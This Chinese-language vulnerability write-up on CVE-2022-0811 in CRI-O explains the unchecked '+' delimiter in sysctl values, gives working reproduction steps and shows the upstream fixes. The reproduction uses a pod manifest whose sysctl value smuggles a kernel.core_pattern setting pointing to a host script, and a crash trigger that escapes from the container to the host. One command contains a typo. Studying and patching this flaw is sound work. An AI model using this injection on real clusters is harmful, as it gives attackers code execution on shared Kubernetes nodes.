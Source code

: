 # CVE-2022-0811

## 一、漏洞分析

CVE-2022-0811 是一个 CRI-O 漏洞，利用这个漏洞可以在创建容器时绕过 CRI-O 的限制，设置任意内核参数，并影响同一 k8s 节点下的其他容器。

在创建容器的时候，CRI-O 通过 pinns 来设置内核参数，格式如下：

```shell
pinns -s key1=val1+key2=val2
```

可以看到 pinns 使用“+”字符来分割每个键值对。在调用 pinns 之前，CRI-O 会先检查每个 key 的前缀，只有在 key 的前缀在白名单里时，才允许设置内核参数 [1.1]：

```go
var prefixNamespaces = map[string]Namespace{
    "kernel.shm": IpcNamespace,
    "kernel.msg": IpcNamespace,
    "fs.mqueue.": IpcNamespace,
    "net.":       NetNamespace,
}

// Validate checks that a sysctl is whitelisted because it is known to be
// namespaced by the Linux kernel. The parameters hostNet and hostIPC are used
// to forbid sysctls for pod sharing the respective namespaces with the host.
// This check is only used on sysctls defined by the user in the crio.conf
// file.
func (s *Sysctl) Validate(hostNet, hostIPC bool) error {
    ......
    for p, ns := range prefixNamespaces {
        if strings.HasPrefix(s.Key(), p) {
            if ns == IpcNamespace && hostIPC {
                return errors.Errorf(nsErrorFmt, s.Key(), ns)
            }
            if ns == NetNamespace && hostNet {
                return errors.Errorf(nsErrorFmt, s.Key(), ns)
            }
            return nil
        }
    }
    return errors.Errorf("%s not whitelisted", s.Key())
}
```

如同前面提到的那样，CRI-O 在调用 pinns 的时候，是直接把每个键值对用“+”拼接起来的 [1.2]：

```go
func getSysctlForPinns(sysctls map[string]string) string {
    // this assumes there's no sysctl with a `+` in it
    const pinnsSysctlDelim = "+"
    g := new(bytes.Buffer)
    for key, value := range sysctls {
        fmt.Fprintf(g, "'%s=%s'%s", key, value, pinnsSysctlDelim)
    }
    return strings.TrimSuffix(g.String(), pinnsSysctlDelim)
}
```

然而，上面的检查操作并没有对 value 进行检查，因此，可以通过在内核参数的 value 中加入另一对键值对来绕过 key 的检查，例如“value1+key2=value2”，其中 key2 和 value2 就是另一个内核参数的键值对，这样，最终调用 pinns 时的参数就是“key1=value1+key2=value2”，key2 绕过了检查，但仍会被 pinns 识别并设置。

## 二、漏洞复现

### 环境搭建

* Linux: Ubuntu 22.04
* Kubernetes: 1.23.4
* CRI-O: 1.23.0

运行 bash 命令来搭建环境：

```shell
sudo ./metarget cnv install cve-2022-0811 --verbose
```

其中，CRI-O 可能需要额外安装，详情可参考[CRI-O 安装文档](https://github.com/cri-o/cri-o/blob/main/install.md#install-packaged-versions-of-cri-o)。

### 复现步骤

创建一个新的 Pod，配置文件（[pod-a.yaml](pod-a.yaml)）内容如下[2.1]：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-a
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

进入 `pod-a` 的 `shell`：

```shell
kubectl create -f pod-a.yaml
kubectl exec -it pod-a -- /bin/sh
```

通过 `mount` 命令，可以得到如下结果：

![](img/pod-a_mount.png)

其中，`upperdir` 为 **/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff** ，这是内核到容器根目录的路径。

创建一个脚本文件 [malicious.sh](malicious.sh)，内容为：

```shell
#!/bin/sh
date >> /var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/output
```

用 `chmod a+x` 为这个文件添加执行权限，然后在根目录下 `touch` 一个 `output` 文件。

接下来创建另一个Pod（[pod-b.yaml](pod-b.yaml)），内容为：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-b
spec:
  securityContext:
   sysctls:
   - name: kernel.shm_rmid_forced
     value: "1+kernel.core_pattern=|/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/malicious.sh #"
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

再次进入 `pod-a` 的shell，获取 **/proc/sys/kernel/core_pattern** 的内容：

![](img/pod-a_cat_core_pattern.png)

最后在 `pod-a` 中的 `shell` 触发容器逃逸漏洞，可以在宿主机上执行恶意脚本内容[2.2]：

```shell
ulimit -c ulimited
tail -f /dev/null &
ps
kill -SIGSEGV <PID>
ps
```

![](img/pod-a_trigger_vul.png)

此时再次查看 `output` 文件，就可以得到脚本输出的内容（date），说明造成了 `pod-a` 到宿主机的逃逸：

```shell
# cat output
2025年 04月 13日 星期日 17:55:37 CST
```

## 官方修复

CRI-O 官方发布了两个修复版本，第一个版本对 key 和 value 都进行检查，判断里面是否包含“+”，如果包含则会返回错误 [3.1]：

```go
for key, value := range sysctls {
    if strings.Contains(key, pinnsSysctlDelim) || strings.Contains(value, pinnsSysctlDelim) {
        return "", errors.Errorf("'%s=%s' is invalid: %s found yet should not be present", key, value, pinnsSysctlDelim)
    }
    fmt.Fprintf(g, "'%s=%s'%s", key, value, pinnsSysctlDelim)
}
```

第二个版本则是修改了 pinns 的调用方式，通过多个“-s”来设置多个内核参数，而不是像之前那样用“+”拼接起来 [3.2]：

```go
for key, value := range cfg.Sysctls {
    pinnsArgs = append(pinnsArgs, "-s", fmt.Sprintf("%s=%s", key, value))
}
```

## 参考

[1.1] [https://github.com/cri-o/cri-o/blob/v1.23.1/pkg/config/sysctl.go#L73](https://github.com/cri-o/cri-o/blob/v1.23.1/pkg/config/sysctl.go#L73)

[1.2] [https://github.com/cri-o/cri-o/blob/v1.23.1/internal/config/nsmgr/nsmgr.go#L174](https://github.com/cri-o/cri-o/blob/v1.23.1/internal/config/nsmgr/nsmgr.go#L174)

[2.1] [https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)

[2.2] [https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2022-0811/README.md](https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2022-0811/README.md)

[3.1] [https://github.com/cri-o/cri-o/commit/c0b2474b80fd0844b883729bda88961bed7b472b](https://github.com/cri-o/cri-o/commit/c0b2474b80fd0844b883729bda88961bed7b472b)

[3.2] [https://github.com/cri-o/cri-o/commit/76f1301c9eb979cbecdbbbb41ed72774285a814c](https://github.com/cri-o/cri-o/commit/76f1301c9eb979cbecdbbbb41ed72774285a814c)

